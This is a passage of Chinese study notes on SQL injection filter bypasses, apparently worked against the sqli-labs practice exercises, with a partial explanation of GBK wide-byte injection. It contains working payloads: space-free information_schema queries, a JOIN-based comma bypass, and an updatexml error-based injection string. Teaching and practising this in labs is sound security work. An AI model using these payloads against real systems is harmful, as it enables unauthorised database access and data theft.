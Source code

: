 <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220818141140253.png" alt="image-20220818141140253" style="zoom:50%;" />

下一步注入（有空格的地方全部变为()）

```sql
select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220818141911347.png" alt="image-20220818141911347" style="zoom:50%;" />

limit()的替代函数：mid()，substring(),sub()。三个函数的用法完全一样。

### 3.5.4 逗号过滤绕过

使用join代替逗号的作用进行绕过

#### 绕过方法（less-25a）

```sql
union select * from (select 1)a join (select 2)b join (select database())c -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220818150512839.png" alt="image-20220818150512839" style="zoom:50%;" />

### 3.5.5 union和select绕过

#### 绕过方法（less-27）

1.大小写绕过

2.复写单词绕过

3.报错注入

```sql
?id=0'||updatexml(1,concat(0x7e,(database())),3)or'1'='1
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220819115214116.png" alt="image-20220819115214116" style="zoom:50%;" />

4.url编码绕过（less-28）

[使用url编码代替空格](#3.5.3 空格过滤绕过)

## 3.6 宽字节注入

### 3.6.1 原理

当传递一个参数id=1‘得时候，当我们输入这个单引号，会被认为是非法字符，会被过滤函数添加“\”给过滤掉，所以我们想要程序接受我们传递得参数中包含单引号，那么就需要把这个转义字符“\”干掉，那如何才能干掉呢？当http协议传输得时候，是要经过url编码的，如果这个编码完成后，传递到服务器时，我们可以在单引号前加上一个%81这样得编码，最后这样解码得时候，这个%81就会和“/”对应得编码相结合按照gbk编码要求去解码，最后只剩下个单引号。

### 3.6.2 条件

条件一：靶机数据库的编码方式为GBK编码，并且发请求时声明客户端用的也是GBK编码
